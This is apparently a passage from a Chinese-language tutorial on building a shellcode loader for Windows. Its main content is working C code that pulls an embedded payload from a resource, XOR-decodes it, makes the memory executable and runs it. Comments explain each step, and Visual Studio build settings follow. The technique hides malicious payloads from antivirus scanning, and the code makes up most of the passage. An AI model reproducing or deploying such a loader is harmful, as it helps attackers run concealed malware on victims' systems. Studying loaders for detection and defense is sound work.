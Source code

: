 ```php

    DWORD oldProtect;
    BOOL pt;
    //找到 shellcode 资源，获取它的资源句柄
    //它的名称为 IDR_PAYLOAD_BIN1，类型为 PAYLOAD_BIN
    HRSRC shellcodeResource = FindResource(NULL, MAKEINTRESOURCE(IDR_PAYLOAD_BIN1), 
  L"PAYLOAD_BIN");
    //读取其中的数据
    HGLOBAL shellcodeResourceData = LoadResource(NULL, shellcodeResource);
    //读取数据⻓度，开辟内存空间读⼊，获得该空间指针
    DWORD shellcodeSize = SizeofResource(NULL, shellcodeResource);
    LPSTR shell = (LPSTR)VirtualAlloc(0, shellcodeSize, MEM_COMMIT, PAGE_READWRITE);
    //shellcode 数据拷⻉进 shell 指向的内存空间
    memcpy(shell, shellcodeResourceData, shellcodeSize);
    //此时 shellcode 已经进⼊内存空间，开始解密执⾏
    //先异或回来
    for (int i = 0; i < shellcodeSize; i++)
    {
        shell[i] ^= 0x39;
    }
    pt = VirtualProtect(shell, shellcodeSize, PAGE_EXECUTE_READ, &oldProtect);
    ((void(*)())shell)();
    return 0;
}
```

由于我是使用资源文件加载的，我们需要在 VS 中配置一下

配置为 release 的 X86

![](assets/1699940321-5dd1b2809aae5af2983c736d3b54cfb2.png)

![](assets/1699940321-168c4ff84802e7362486275a3e5d7cd7.png)

然后修改代码生成为 MT 模式
